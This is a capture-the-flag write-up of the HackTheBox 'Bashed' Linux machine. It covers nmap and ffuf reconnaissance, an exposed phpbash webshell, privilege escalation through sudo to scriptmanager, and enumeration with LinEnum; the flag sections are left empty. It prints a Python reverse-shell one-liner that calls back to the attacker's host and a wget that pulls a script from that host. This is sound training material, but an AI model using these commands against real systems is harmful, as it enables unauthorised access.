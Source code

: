 ```yaml
---
layout: post
title: Bashed
tags: [CTF, writeup]
description: "Bashed write-up"
---
```


![Bashed logo](/assets/imgs/bashed/bashed.png)

### This is an easy linux box

## Tools used

------

- ffuf
- nmap

## Reconnaissance

------

### nmap

```
nmap -sC -sV -oA bashed 10.10.10.68 -v

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-favicon: Unknown favicon MD5: 6AA5034A553DFA77C3B2C7B4C26CF870
| http-methods: 
|_  Supported Methods: OPTIONS GET HEAD POST
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Arrexel's Development Site
```

Here’s what nmap teaches us :

- port 80 (HTTP) - Apache 2.4.18 (ubuntu)

So there is only the web port open, let's go see what's on it !

![Website image](/assets/imgs/bashed/website.PNG)

So there not a lot of thing on this website, only a two pages :

- index.html
- single.html

Single.html talks about something called "phpbash", which is a webshell. So there may be a way to found it on the web server. Let's do some files/directories brute force with ffuf :

```bash
ffuf -w /home/liodeus/directory-list-lowercase-2.3-medium.txt -u http://10.10.10.68/FUZZ -e .php,.html,.txt -t 10                                       

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.1.0-git
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.10.68/FUZZ
 :: Wordlist         : FUZZ: /home/liodeus/directory-list-lowercase-2.3-medium.txt
 :: Extensions       : .php .html .txt 
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 10
 :: Matcher          : Response status: 200,204,301,302,307,401,403
________________________________________________

index.html              [Status: 200, Size: 7742, Words: 2956, Lines: 162]
images                  [Status: 301, Size: 311, Words: 20, Lines: 10]
about.html              [Status: 200, Size: 8190, Words: 2878, Lines: 155]
contact.html            [Status: 200, Size: 7802, Words: 2630, Lines: 157]
uploads                 [Status: 301, Size: 312, Words: 20, Lines: 10]
php                     [Status: 301, Size: 308, Words: 20, Lines: 10]
css                     [Status: 301, Size: 308, Words: 20, Lines: 10]
dev                     [Status: 301, Size: 308, Words: 20, Lines: 10]
js                      [Status: 301, Size: 307, Words: 20, Lines: 10]
config.php              [Status: 200, Size: 0, Words: 1, Lines: 1]
fonts                   [Status: 301, Size: 310, Words: 20, Lines: 10]
single.html             [Status: 200, Size: 7476, Words: 2740, Lines: 155]
```

There is 4 things that stands out from ffuf :

- uploads
- php
- dev
- config.php

Going throuth all of them, the most interresting one is "/dev" :

![Index of /dev](/assets/imgs/bashed/dev.PNG)

## Exploit

------

Going over : http://10.10.10.68/dev/phpbash.php, gives me access to the webshell with the same right as the web server :

![Webshell](/assets/imgs/bashed/webshell.PNG)

I don't really like this webshell, so let's get a reverse shell on my machine, first launch a nc listener :

```bash
nc -lvp 1234
```

Then on the webshell use this reverse shell from : 

```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.10",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

And I'm connected :

```bash
nc -lvp 1234
listening on [any] 1234 ...
10.10.10.68: inverse host lookup failed: Unknown host
connect to [10.10.14.10] from (UNKNOWN) [10.10.10.68] 58018
/bin/sh: 0: can't access tty; job control turned off
```

Get a tty shell :

```python
python -c "import pty;pty.spawn('/bin/bash')"
```

Now let's escalate ! First things that I do is to see if I can run commands as someone else :

```bash
www-data@bashed:/var/www/html/dev$ sudo -l
sudo -l
Matching Defaults entries for www-data on bashed:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on bashed:
    (scriptmanager : scriptmanager) NOPASSWD: ALL
```

So I can run any commands as "scriptmanager", so give me a bash ! 

```bash
www-data@bashed:/var/www/html/dev$ sudo -u scriptmanager /bin/bash
sudo -u scriptmanager /bin/bash
scriptmanager@bashed:/var/www/html/dev$whoami
whoami
scriptmanager
```

And here I'm scriptmanager ! Now it's enumeration time, let's upload "LinEnum.sh" on the box. First, start python server to transfert files :

```bash
python -m SimpleHTTPServer
```

Then, on the reverse shell download it :

```bash
wget http://10.10.14.10:8000/LinEnum.sh
```

Now launch the enumeration script :

```bash
bash LinEnum.sh
```

This is what I looked first :

```bash
[-] Kernel information (continued):
Linux version 4.4.0-62-generic (buildd@lcy01-30) (gcc version 5.4.0 20160609 (Ubuntu 5.4.0-6ubuntu1~16.04.4) ) #83-Ubuntu SMP Wed Jan 18 14:10:15 UTC 2017
```

I learned that this is a Ubuntu 16.04.4, let's found the release date on google :

- March 1, 2018 - [https://wiki.ubuntu.com/Releases](https://wiki.ubuntu.com/Releases)

So it's been release more thant two years ago, there migth be some local privilege escalation, go found out with searchsploit :

![Searchsploit Ubuntu](/assets/imgs/bashed/searchsploit.PNG)





## Flags

------

### User.txt

```bash

```

### Root.txt

```bash

```